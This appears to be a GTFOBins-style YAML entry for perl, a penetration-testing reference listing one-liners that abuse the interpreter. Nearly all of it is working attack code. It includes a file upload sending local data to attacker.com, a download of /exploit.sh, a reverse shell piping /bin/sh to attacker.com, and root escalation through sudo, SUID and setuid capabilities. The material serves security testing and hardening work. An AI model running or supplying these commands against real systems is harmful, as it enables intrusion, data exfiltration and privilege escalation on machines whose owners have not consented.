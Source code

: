```yaml
---
functions:
  shell:
    - code: perl -e 'exec "/bin/sh";'
  file-read:
    - code: |
        LFILE=file_to_read
        perl -ne print $LFILE
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Capture content on attacker host, example: `LPORT=8080; tcpdump -i any -s 0 -l -A "tcp dst port $LPORT and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)" | awk 'BEGIN { show=0 } /Connection: close/ { show=1; next } show'`
    - code: |
        export RHOST=attacker.com
        export RPORT=8080
        export URL=/exploit.sh
        export LFILE=output.txt
        perl -MIO::Socket::INET -e '$s = new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"}, PeerPort=>$ENV{"RPORT"}, Proto=>"tcp") or die;open(my $file, "<", $ENV{"LFILE"}) or die;$content = join("", <$file>);close($file);$post_data = "d=" . $content;$headers = "POST " . $ENV{"URL"} . " HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: " . length($post_data) . "\r\nConnection: close\r\n\r\n";print $s $headers . $post_data;while (<$s>) { }close($s);'
  file-download:
    - description: Download a file via HTTP. For example, run `python3 -m http.server 8080` on the serving side.
      code: |
        export RHOST=attacker.com
        export RPORT=8080
        export URL=/exploit.sh
        export LFILE=output.txt
        perl -MIO::Socket::INET -e '$s=new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"},PeerPort=>$ENV{"RPORT"},Proto=>"tcp") or die; print $s "GET " . $ENV{"URL"} . " HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nMetadata: true\r\nConnection: close\r\n\r\n"; open(my $fh, ">", $ENV{"LFILE"}) or die; $in_content = 0; while (<$s>) { if ($in_content) { print $fh $_; } elsif ($_ eq "\r\n") { $in_content = 1; } } close($s); close($fh);'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  suid:
    - code: ./perl -e 'exec "/bin/sh";'
  sudo:
    - code: sudo perl -e 'exec "/bin/sh";'
  capabilities:
    - code: ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
---
```

